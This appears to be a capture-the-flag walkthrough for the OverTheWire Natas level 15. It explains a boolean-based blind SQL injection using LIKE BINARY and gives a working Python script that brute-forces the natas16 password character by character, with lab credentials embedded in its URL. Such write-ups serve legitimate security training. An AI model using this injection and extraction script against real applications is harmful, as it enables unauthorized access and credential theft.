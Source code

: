 So, we need to get the password for natas16, and to do that we will have to brute force the password. In general, this will be similar to the brute forcing we did in Bandit, but a little more complex. I will be creating the script to brute force the password using [Python](https://www.python.org/), so I suggest brushing up on it before continuing, or use another language like Ruby, JavaScript, C, etc.

First, let's try and create a SQL Query that will allow us to see what letters are in the __password__ field for natas16. We will try to inject __natas16" and password LIKE BINARY "a%__, and it will bode us this query.

```sql
SELECT * from users where username = "natas16" and password LIKE BINARY "a%"
```

What this query does is basically pull the username __natas16__ and check to see if a certain character is used in their associated password field. We use the [LIKE](http://www.w3schools.com/sql/sql_like.asp) statement to search for specified letters or patterns, and the MySQL Operator [BINARY](http://dev.mysql.com/doc/refman/5.5/en/cast-functions.html#operator_binary) to compare case sensitive letters.

When we run this query, if the character we chose are in the password, the page will return __The user exists__, if the character isn’t in the password, then we will get __The user doesn’t exist__. 

So let's go ahead and write a python script to check for password characters, and then try to brute force the password.

```python
#!/usr/bin/python

import requests

chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
exist = ''
password = ''
target = 'http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/index.php'
trueStr = 'This user exists.'

r = requests.get(target, verify=False)

for x in chars:
	r = requests.get(target+'?username=natas16" AND password LIKE BINARY "%'+x+'%" "')
	if r.content.find(trueStr) != -1:
		exist += x
		print 'Using: ' + exist

print 'All characters used. Starting brute force... Grab a coffee, might take a while!'

for i in range(32):
	for c in exist:
		r = requests.get(target+'?username=natas16" AND password LIKE BINARY "' + password + c + '%" "')
		if r.content.find(trueStr) != -1:
			password += c
			print 'Password: ' + password + '*' * int(32 - len(password))
			break

print 'Completed!'
```
Once done, save this as __brute.py__ or anything you like, and let's give the script execute permissions, and then run it!
